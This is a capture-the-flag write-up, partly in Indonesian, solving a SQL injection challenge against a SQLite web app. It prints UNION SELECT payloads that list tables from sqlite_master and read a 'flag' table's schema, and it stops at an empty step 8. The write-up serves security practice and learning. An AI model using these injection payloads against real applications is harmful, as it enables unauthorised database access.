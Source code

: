 # SQLI
> Write-up author: vreshco
## DESCRIPTION:
Apakah kamu tahu apa itu SQL Injection?

http://ctf.tcp1p.com:25859/

## HINT:
1. google how to get table names in sqlite.
2. `nijika' UNION SELECT"1","2",3;--` , mungkin dia tidak menerima integer, hmmm... maybe...

## STEPS:
1. Given a web app.

> WEB APP![image](https://user-images.githubusercontent.com/70703371/229270940-bf2de7fd-f502-470f-857b-f5da7e71e94b.png)


2. Clicking the `playground` option shall allows us to search for characters.

![image](https://user-images.githubusercontent.com/70703371/229271011-e6cac1b3-7591-4ab7-89f7-122a4e71f1de.png)


3. Based from the hint given, the db used is **sqlite** and let's used the sqlite query given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271093-31e778a0-0189-47da-b115-570ce1c67eef.png)


4. I did a small outsource about **sqlite exploit** [query](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)]
5. And found a documentation about it, it seems we can use "tbl_name" to exract all the tables avail.

> THE QUERY

```sql
nijika' UNION SELECT"1","tbl_name","3" FROM sqlite_master;--
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271320-2263d533-b03c-4d62-9440-1ac6369dfa7a.png)


6. Notice, there's a **flag** table.
7. Let's extract all the columns avail.

> QUERY

```sql
nijika' UNION SELECT"1","sql","3" FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='flag';--
```

8. 



